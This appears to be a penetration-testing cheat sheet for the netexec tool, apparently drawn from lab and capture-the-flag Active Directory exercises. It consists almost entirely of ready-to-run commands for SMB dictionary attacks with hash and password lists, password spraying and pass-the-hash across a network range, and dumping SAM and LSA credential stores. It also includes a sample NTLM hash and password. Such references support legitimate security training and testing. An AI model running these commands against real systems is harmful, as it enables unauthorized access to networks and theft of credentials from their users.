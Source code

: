 **netexec is heavily used for credential enumeration across several protocols (ldap, ssh, smb, mssql, winrm).  CME works alongside popular modules to become an extremely powerful resource.**

```bash
sudo apt install netexec
```

```bash
netexec --help
```

#### Dictionary attack (Hashes)
Here we are attacking SMB protocol with a list of users and hashes against the domain of "Blackfield".
```bash - kali
netexec smb $TARGET -u Blackfield/users.txt -H Blackfield/hashes.txt
```

#### Dictionary attack (Passwords)
Here we found a valid username "neil", and are attempting to find a valid password by utilizing a wordlist.
```bash - kali
netexec smb $TARGET -u neil -p /usr/share/seclists/Passwords/Common-Credentials/best1050.txt
```

#### User wordlist attack with single password
Here we found a valid password "SecretOrg!", and are attempting to find a valid user by utilizing a wordlist.
```bash
netexec smb secret.csl -u users.txt -p 'SecretOrg!'
```

#### Spray username and hash
Here we found valid username and hash, and are spraying a network range to find a working target.
```bash
netexec smb x.x.x.0/24 -u fcastle -d MARVEL.local -H 64f12cddaa88057e06a81b54e73b949b
```


#### Spray username and password
Here we found valid username and password, and are spraying a network range to find a working target.
```bash
netexec smb x.x.x.0/24 -u fcastle -d MARVEL.local -p Password1
```


#### sam file dump with netexec
Here we found valid username and password, and are spraying a network range to dump sam hashes.
```bash
netexec smb x.x.x.0/24 -u fcastle -d MARVEL.local -p Password1 --sam
```

#### lsa file dump with netexec
Here we found valid username and password, and are spraying a network range to dump sam hashes.
```bash
netexec smb x.x.x.0/24 -u fcastle -d MARVEL.local -p Password1 --lsa
```
